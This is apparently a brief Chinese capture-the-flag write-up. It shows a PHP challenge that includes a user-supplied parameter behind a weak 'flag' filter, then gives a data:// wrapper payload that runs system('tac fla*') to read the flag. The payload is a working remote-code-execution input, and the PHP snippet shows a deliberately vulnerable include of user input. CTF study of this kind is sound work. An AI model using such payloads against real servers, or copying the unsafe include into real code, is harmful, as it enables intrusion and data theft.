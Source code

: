 ```php
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
  
    }
    
}else{
    highlight_file(__FILE__);
} 
```

代码中将c进行了包含，再输出flag

那么就利用伪协议去读flag

payload：`c=data://text/plain,<?php system('tac fla*');?>`

![image-20230429134736155](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230429134736155.png)
